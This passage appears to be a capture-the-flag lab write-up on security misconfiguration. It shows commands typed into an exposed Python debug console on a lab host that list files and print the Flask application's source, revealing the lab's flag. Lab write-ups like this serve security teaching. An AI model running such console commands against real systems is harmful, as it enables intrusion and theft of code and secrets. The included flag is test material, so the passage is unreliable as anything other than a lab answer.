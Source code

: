 Navigate to [http://10.10.89.200:86](http://10.10.89.200:86/) and try to exploit the security misconfiguration to read the application's source code.

Answer the questions below

```
[console ready]
>>> print('hi')
hi
>>> import os; print(os.popen("ls -l").read())
total 24
-rw-r--r--    1 root     root           249 Sep 15 05:07 Dockerfile
-rw-r--r--    1 root     root          1411 Feb  3 04:28 app.py
-rw-r--r--    1 root     root           137 Sep 15 05:05 requirements.txt
drwxr-xr-x    2 root     root          4096 Sep 15 05:06 templates
-rw-r--r--    1 root     root          8192 Mar  9 18:47 todo.db

>>> import os; print(os.popen("cat app.py").read())
import os
from flask import Flask, render_template, request, redirect, url_for
from flask_sqlalchemy import SQLAlchemy

secret_flag = "THM{Just_a_tiny_misconfiguration}"

PROJECT_ROOT = os.path.dirname(os.path.realpath(__file__))
DATABASE = os.path.join(PROJECT_ROOT, 'todo.db')

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = "sqlite:////" + DATABASE
db = SQLAlchemy(app)


class Todo(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    title = db.Column(db.String(80))
    complete = db.Column(db.Boolean)


@app.route("/")
def index():
    todo_list = Todo.query.all()
    return render_template("index.html", todo_list=todo_list)


@app.route("/add", methods=["POST"])
def add():
    title = request.form.get("title")
    new_todo = Todo(title=title, complete=False)
    db.session.add(new_todo)
    db.session.commit()
    return redirect(url_for("index"))


@app.route("/complete/<string:todo_id>")
def complete(todo_id):
    todo = Todo.query.filter_by(id=todo_id).first()
    todo.complete = not todo.complete
    db.session.commit()
    return redirect(url_for("index"))


@app.route("/delete/<string:todo_id>")
def delete(todo_id):
    todo = Todo.query.filter_by(id=todo_id).first()
    db.session.delete(todo)
```